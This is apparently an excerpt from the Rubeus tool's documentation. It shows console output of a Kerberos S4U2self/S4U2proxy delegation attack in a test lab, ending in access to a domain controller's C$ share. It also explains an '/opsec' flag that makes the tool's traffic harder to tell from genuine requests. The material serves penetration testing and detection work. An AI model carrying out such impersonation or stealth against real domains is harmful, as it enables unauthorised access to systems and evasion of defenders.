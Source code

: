         doIE+jCCBPagAwIBBaEDAgEWoo..(snip)..


    [*] Action: S4U

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2self request for: 'TESTLAB.LOCAL\patsy'
    [*] Sending S4U2self request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1437 bytes
    [*] Received 1574 bytes
    [+] S4U2self success!
    [*] Got a TGS for 'dfm.a@TESTLAB.LOCAL' to 'TESTLAB.LOCAL\patsy'
    [*] base64(ticket.kirbi):

        doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..

    [*] Impersonating user 'dfm.a' to target SPN 'ldap/PRIMARY.testlab.local'
    [*]   Final ticket will be for the alternate service 'cifs'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] Substituting alternative service name 'cifs'
    [*] base64(ticket.kirbi) for SPN 'cifs/PRIMARY.testlab.local':

        doIGujCCBragAwIBBaEDAgEWoo..(snip)..

    [*] Action: Import Ticket
    [+] Ticket successfully imported!

    C:\Rubeus>dir \\primary.testlab.local\C$
    Volume in drive \\primary.testlab.local\C$ has no label.
    Volume Serial Number is A48B-4D68

    Directory of \\primary.testlab.local\C$

    07/05/2018  12:57 PM    <DIR>          dumps
    03/05/2017  04:36 PM    <DIR>          inetpub
    08/22/2013  07:52 AM    <DIR>          PerfLogs
    04/15/2017  05:25 PM    <DIR>          profiles
    08/28/2018  11:51 AM    <DIR>          Program Files
    08/28/2018  11:51 AM    <DIR>          Program Files (x86)
    10/09/2018  12:04 PM    <DIR>          Temp
    08/23/2018  03:52 PM    <DIR>          Users
    10/25/2018  01:15 PM    <DIR>          Windows
                1 File(s)              9 bytes
                9 Dir(s)  40,511,676,416 bytes free

By default, several differences exists between the S4U2Self and S4U2Proxy TGS-REQ's generated by Rubeus and genuine requests. To form the TGS-REQ's more inline with genuine requests, the `/opsec` flag can be used. As this flag is intended to make Rubeus traffic more stealthy, it cannot by default be used with any encryption type other than `aes256` and will just throw a warning and exit if another encryption type is used. To allow for other encryption types to be used with the `/opsec` changes, the `/force` flag exists. The `/opsec` flag has not yet been implemented for cross domain S4U.
